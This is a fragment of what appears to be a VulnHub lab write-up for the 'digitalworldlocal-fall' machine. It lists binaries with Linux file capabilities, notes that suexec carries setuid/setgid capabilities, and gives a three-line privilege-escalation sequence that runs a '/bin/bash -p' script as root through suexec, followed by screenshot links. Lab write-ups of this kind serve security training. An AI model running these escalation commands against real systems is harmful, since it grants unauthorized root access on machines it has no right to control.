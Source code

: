 ```bash
ls -la /var/lib/cockpit/
n/a
```
___
```
Files with capabilities (limited to 50):
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/mtr-packet = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

```
echo "/bin/bash -p" > /tmp/shell
chmod +x /tmp/shell
/usr/sbin/suexec root root /tmp/shell  
```
___
# Bash History


![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518082351.png)
![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518082633.png)